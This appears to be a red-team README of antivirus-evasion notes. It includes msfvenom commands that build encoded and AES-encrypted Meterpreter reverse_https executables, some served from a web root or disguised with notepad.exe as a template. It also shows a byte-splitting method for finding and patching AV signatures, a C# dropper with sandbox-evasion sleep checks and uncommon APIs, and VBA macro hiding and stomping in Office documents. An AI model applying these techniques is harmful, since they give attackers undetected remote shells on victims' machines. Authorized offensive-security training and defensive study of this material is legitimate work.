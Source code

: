 ## Antivirus overview
  Most antivirus software runs on an endpoint machine. They offer real-time scan, in which the software monitors file operations and scans a file when it is downloaded or an attempt is made to execute it. In either case, if a malicious file is detected, it is either deleted or quarantined. Most detection is signature-based, rely on MD5 or SHA-1 hashes of malicious files or on unique byte sequences discovered in known malicious files. Some software also performs heuristics or behavioral analysis that simulates execution of a scanned file.
  
  When preparing for an engagement, we ideally want to mirror the target system in our local environment to verify the effectiveness of our tools. Since, red team is super cheap, we can't build a test environment for every engagement. Therefor, we could test payload against[AntiScanMe](https://antiscan.me/). They do Not distribute result.
  
## Baby Steps to bypass AV
We can use [FindAVSig](/04FunWithAntivirus/Find-AVSignature.ps1) powershell script to spilt our payload, and scan each section of our payload individully to identify which byte are flaged by AV. The below code spilt met.exe into 10000 bytes same files. We can use windows defender or any AV product to scan them individully, to see which section get flagged. Once you find the section, break it down again with smaller interval until you find the exact byte. Once you find the byte that get flagged, you can replace it using [bytechange script](/04FunWithAntivirus/bytechange.ps1) Hint,Sometimes, modifying the byte at the exact offset will not evade the signature, but modifying the byte before or after it will. And don't forget, you want to test the payload, sometime modification will mess up the payload..
```
PS C:\nonosquare> Import-Module .\Find-AVSignature.ps1
PS C:\nonosquare> Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\nonosquare\met.exe -OutPath C:\nonosquare\avtest1 -Verbose -Force
```
Let's say if the second 20000 byte get flagged, we can break down agin with small interval, and scan again.
```
Find-AVSignature -StartByte 10000 -EndByte 20000 -Interval 1000 -Path C:\nonosquare\met.exe -OutPath C:\nonosquare\avtest1 -Verbose -Force
```

## play with Encoder or Encryptors
Encoders generally used character substitution to replace bad characters
```
kali@kali:~$ msfvenom --list encoders

Name Rank Description
---- ---- -----------
x64/xor normal XOR Encoder
x64/xor_context normal Hostname-based Context Keyed Payload
Encoder
x64/xor_dynamic normal Dynamic key XOR Encoder
x64/zutto_dekiru manual Zutto Dekiru
x86/add_sub manual Add/Sub Encoder
x86/alpha_mixed low Alpha2 Alphanumeric Mixedcase Encoder
```

Encoder Useage
```
kali@kali:~$ sudo msfvenom -p windows/meterpreter/reverse_https LHOST=IP LPORT=443 -e x86/shikata_ga_nai -f exe -o /var/www/html/met.exe
```

Enconder using Windows application as a template, copy C:\Windows\System32\notepad.exe to Kali and use it as a template
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=443 -e x64/zutto_dekiru -x /home/kali/notepad.exe -f exe -o met64_notepad.exe
```

Encryption is design to replace to ineffectiveness of encoders for antivirus evasion
```
kali@kali:~$ msfvenom --list encrypt
================================================
Name
----
aes256
base64
rc4
xor
```

Let's encrypt with AES and see
```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP PORT=443 --encrypt aes256 --encrypt-key fdgdgj93traskfaswergfsdfg33 -f exe -o met64_aes.exe
```

## Play with C#
Let's modify this [banana C# payload dropper](/02ClientSideWithWindowsScriptHost/Class1.cs) to make it stronger and better.
- 1. We can use [Caeasr Ciper code](/04FunWithAntivirus/Caesar.cs) to encrpt our payload, and add encypted payload to our beefy c# dropper, we add a decryption routine to get our old payload before load into memory. 
- 2.Let's mess with our code behavior a bit to bypass heuristic detection techniques. We can add a Sleep timer with Win32 Sleep API.If this section of code is being
simulated, the emulator will detect the Sleep call and fast-forward through the instruction. we can inject a two-second delay, and if the time checks indicate that two seconds have not passed during the instruction, we assume we are running in a simulator and can simply reutrn the code.
- 3.using non-emulated APIs,  antivirus emulators are cheap too, they often only simulate the execution of common exe or functions. We could bypass this by using a WinAPI that is not emulated. For example, [Win32 VirtualAllocExNuma](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocexnuma) a uncommon API, with Numa suffix, a system design to optimize memory usage on multi-processor servers. We can test this by reverse engineering the antivirus emulator, or test out various APIs against AV engine. let's use VirtualAllocExNuma instead of VirtualAllocEx to allocated memory, and we can put a check block, return code if the memeory is not allocated.
- 4.After adding those 3 ttps, this is our [beefy C# dropper](/04FunWithAntivirus/beefyC#dropper.cs)
- 5.TODO, reseach more uncommon API, lookinto Win32 FlsAlloc.(page 185)

## Play with VBA for a beefy Marco
We could use the sane ttp as mentioned with c# methos. 1. use a ciper to encrypt payload, 2. add delay function, 3.using non-emulated API in VBA script. The microsofy office files with .doc and .xls extension use a [Compound File Binary File Format](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cfb/53989ce4-7b05-4f8d-829b-d08d6148375b), which combine multiple files into a single disk file.

We can use [FlexHex editor](http://www.flexhex.com/download/) to inspect the .doc file fomrat to understand it better.
- 1.open a marco word doc with  Flex, File > Open > OLE Compound File
- 2.expend Macro and VBA folders on the lower-left Navigation window, content related to VBA macros are located in the Macros
- 3.The **Project** file contains project information. We can edit the Project file to hide macro from within the graphical office VBA editor. Select **“Module=NewMacros”**, which is what the GUI editor uses to link the displayed macros, replace this value with null.highlighting the ASCII string and navigating to **Edit > Insert Zero Block**
- 4.VBA PerfomanceCache. VBA use **P-code**, a compiled version of the VBA textual code for the specific version of Microsoft Office and VBA it was created on. When a Microsoft Word document is opened on a different computer thatuses the same version and edition of Microsoft Word, the cached pre-compiled P-code is executed, avoiding the translation of the textual VBA code by the VBA interpreter. This means that in some scenarios, the VBA source code can be removed, as long as our document is opened on a computer that uses the same version of Microsoft Word installed in the default location, the VBA source code is ignored and the P-code is executed instead. We can remove the VBA source by y locating the VBA source code inside NewMacros. mark the bytes that start with  **“Attribute VB_Name”** and select all the remaining bytes, and insert zero block.

## VBA powershell process dechaining with WMI and beefy level 2 obfuscation
The old [VBA script](/01ClientSideWithOffice/powershellmemorydownloadCradle.vbs) use a PowerShell download cradle that fetched and executed the full shellcode. There are two issues with this, 1.use of the Shell method and the clearly identifiable PowerShell download cradle, 2. the powershell process becomes a child process of Microsoft Word, which is suspicious behavior
